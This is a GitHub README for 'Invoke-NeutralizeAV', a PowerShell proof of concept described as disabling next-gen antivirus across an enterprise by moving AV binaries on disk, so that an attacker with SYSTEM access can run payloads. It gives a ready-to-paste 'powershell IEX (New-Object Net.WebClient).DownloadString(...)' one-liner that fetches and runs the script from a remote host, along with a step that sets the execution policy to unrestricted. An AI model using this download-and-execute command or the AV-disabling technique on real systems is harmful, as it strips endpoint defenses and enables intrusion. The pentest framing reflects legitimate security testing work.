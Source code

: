 # Invoke-NeutralizeAV
Quick PoC I Wrote for Bypassing Next Gen AV Remotely for Pentesting

# Description
I created this PoC based on a recent discovery of mine during a penetration test where I had SYSTEM access but could not stop AV processes or Services.  I found that simply moving the binaries on disk to another directory essentially neutralized the running AV process.  Use this script to effectively shut down AV across an enterprise environment so you can execute your payloads, etc.  There's also an "Enable" switch to set everything back when finished.

# Instructions
You'll probably want to read the blog first at https://curtbraz.blogspot.com/2018/08/bypassing-next-gen-av-during-pentest.html.  

The assumption is being made that you are first running as SYSTEM or at least a Local or Domain Admin that can elevate to SYSTEM on a Windows OS with PowerShell.  If AV is enabled on the target you plan to run this scipt on, it will likely need to be neutralized first before this can be leveraged to disable remote targets.  See the blog for details.  Soon, I'll provide a BAT file so it's not a manual process.

Paste the following into the elevated CMD prompt to download the PS1 script.  (Note: You may need to first enable scripts on the host with `Set-ExecutionPolicy unrestricted`)

1) `powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/curtbraz/Invoke-NeutralizeAV/master/Invoke-NeutralizeAV.ps1')`

2) Enjoy! :)

# Closing Thoughts
This is a quick and dirty PoC.  I plan to fix it up and add more functionality soon (host list, CIDR notation, disabling services & other bypass methods first, quiet mode, etc), but hopefully in the meantime this will assist people to more quickly bypass next gen AV on remote hosts during a pentest.  I can't disclose the one AV vendor I know this works against, but I'm hopeful it will work on others.  I would love it if you could report back on what does/doesn't work.  I wrote this script in a dynamic way so I didn't have to keep an ongoing list of current AV Service Names.
